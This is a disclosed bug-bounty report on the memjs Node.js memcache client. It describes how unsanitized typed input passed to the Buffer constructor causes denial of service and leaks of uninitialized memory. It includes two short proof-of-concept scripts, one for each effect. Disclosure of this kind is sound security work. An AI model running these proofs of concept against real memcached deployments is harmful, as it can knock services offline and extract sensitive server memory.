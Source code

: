 # `memjs` allocates and stores buffers on typed input, resulting in DoS and uninitialized memory usage

## Report Details
- **Report ID**: 319809
- **URL**: https://hackerone.com/reports/319809
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-02-26T15:11:42.082Z
- **Disclosed**: 2018-06-27T05:25:55.386Z

## Reporter
- **Username**: chalker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a Buffer allocation vulnerability in `memjs`.

In cases when the attacker is able to pass typed input (e.g. via JSON) to the storage, it allows to cause DoS (on all Node.js versions) and to store (and potentially later extract) chunks of uninitialized server memory containing sensitive data.

# Module

**module name:** `memjs`
**version:** 1.1.0
**npm page:** `https://www.npmjs.com/package/memjs`

## Module Description

> MemJS is a pure Node.js client library for using memcache, in particular, the MemCachier service. It uses the binary protocol and support SASL authentication.

## Module Stats

186 downloads in the last day
2 903 downloads in the last week
12 037 downloads in the last month

~144 444 estimated downloads per year *(yay, a pretty number)*

# Vulnerability

## Vulnerability Description

`memjs` passes `value` option to the Buffer constructor without proper sanitization, resulting in DoS and uninitialized memory leak in setups where an attacker could submit typed input to the 'value' parameter (e.g. JSON).

## Steps To Reproduce:

`memcached` should be up and running.

### DoS

```js
var client = require('memjs').Client.create()
function tick() {
  var value = 2e9;
  client.set('key', value, {expires: 600 }, () => {});
}
setInterval(tick, 200);
```

### Uninitialized memory exposed (when running on Node.js below 8.0)

```js
var client = require('memjs').Client.create()
var value = 100;
client.set('key', value, {expires: 600 }, () => {});
client.get('key', (err, val) => console.log(val));
```

## Supporting Material/References:

- OS: Arch Linux current
- Node.js 9.5.0
- npm 5.6.0
- memcached 1.5.5

# Wrap up

- I contacted the maintainer to let him know: N
- I opened an issue in the related repository: N

## Impact

Denial of service
Sensitive data leak (on Node.js < 8.x)

## Attachments
No attachments
